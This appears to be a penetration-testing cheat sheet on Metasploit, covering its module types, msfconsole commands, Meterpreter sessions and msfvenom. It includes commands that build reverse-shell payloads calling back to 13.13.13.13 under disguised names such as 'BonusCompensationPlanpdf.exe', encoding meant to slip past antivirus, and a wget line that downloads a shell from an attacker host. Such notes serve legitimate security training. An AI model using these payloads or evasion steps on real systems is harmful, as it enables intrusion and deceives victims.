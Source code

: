 # Metasploit

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## Architecture

1. **Auxiliary** - Any supporting module, such as scanners, crawlers and fuzzers.
2. **Encoders** - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. **Evasion** - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. **Exploits** - Exploits, neatly organized by target system.
5. **NOPs** - `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. **Payloads** - Payloads are codes that will run on the target system.
7. **Post** - Post modules would be useful in post-exploitation.

## Useful MSFconsole Commands

* **Specific Search**

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

* **Get more info about module**

```bash
info
```

* **MSF - Permanent Target Specification**

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

* **Show and Set Target for exploit**

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

* **Searching for Specific Payload**

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

* **Use Local Exploit Suggester**

```bash
msf6 > search local exploit suggester
```

## MSFvenom

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.

* **List Payloads**

```bash
msfvenom -l payloads
```

* **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

* **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Staged vs Stageless Payloads

<mark style="color:blue;">**`Staged`**</mark>** payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>** payloads do not have a stage.** So all payload and programs are loaded at first time.

## Meterpreter

`The Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

## Encoder

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Sessions

* **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

* **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

* **Backgrounding session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

* **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

* **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

* **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

***

## Lifehacks

* Use wget -o parameter when you want to install revshell file into machine like:&#x20;

```
wget http://13.13.13.13:1337/shell.exe -o shell.exe
```
